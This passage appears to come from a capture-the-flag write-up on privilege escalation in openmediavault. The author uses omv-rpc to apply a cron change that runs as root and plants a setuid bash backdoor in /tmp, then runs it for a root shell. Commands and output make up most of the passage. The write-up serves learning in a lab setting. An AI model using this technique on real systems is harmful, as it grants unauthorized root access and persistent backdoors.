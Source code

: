There’s a typo in the example where the closing `sendmail` tag is missing the `/`. Not having this will fail with `omv-confdbadm` (which is why it’s nice to have as a check).

With a valid DB, I’ll reload the `cron` module using RPC:

```

openmediavault-webgui@derailed:/etc/openmediavault$ /usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"cron\"], \"force\": true }"
null

```

I’ll wait a minute, and then my `bash` backdoor is present:

```

openmediavault-webgui@derailed:/etc/openmediavault$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1234376 Jul 20 16:51 /tmp/0xdf

```

And I can run it to get a root shell (euid = 0):

```

openmediavault-webgui@derailed:/etc/openmediavault$ /tmp/0xdf -p
0xdf-5.1# id
uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) euid=0(root) groups=996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)

```

Looking at how this works, I’ll find a few files in `/etc/cron.d` that are managed by openmediavault:

```

root@derailed:/etc/cron.d# ls
anacron  e2scrub_all  mdadm  openmediavault-mkrrdgraph  openmediavault-powermngmt  openmediavault-userdefined  php

```

The `openmediavault-userdefined` on has my job:

```

root@derailed:/etc/cron.d# cat openmediavault-userdefined 
# This file is auto-generated by openmediavault (https://www.openmediavault.org)
# WARNING: Do not edit this file, your changes will get lost.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user    command
* * * * * root /var/lib/openmediavault/cron.d/userdefined-b8068c15-0d5e-4d38-a7d0-6885a31c8a53 >/dev/null 2>&1

```
